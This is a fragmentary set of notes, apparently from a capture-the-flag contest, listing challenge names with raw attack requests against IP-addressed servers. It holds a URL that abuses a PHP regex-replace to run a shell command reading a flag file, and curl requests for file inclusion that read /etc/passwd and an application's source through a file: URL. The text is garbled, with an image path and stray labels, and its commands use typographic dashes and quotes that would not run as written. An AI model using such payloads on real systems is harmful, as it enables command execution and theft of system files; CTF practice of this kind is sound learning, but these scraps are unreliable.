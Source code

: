 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute


Curl –x ‘POST’ ‘http://IP/?start=’ –data ‘start=flag.php’ Alien-inclusion


File:/etc/passwd      File:/home/ctf/app.py
Curl –x $’POST’ \
-H $’Host:company.tld’\   
--data $’url=file:home/ctf/app.py’\
$’http://34.141.113.155:32567/’                               LFI  Ultra-Crawler
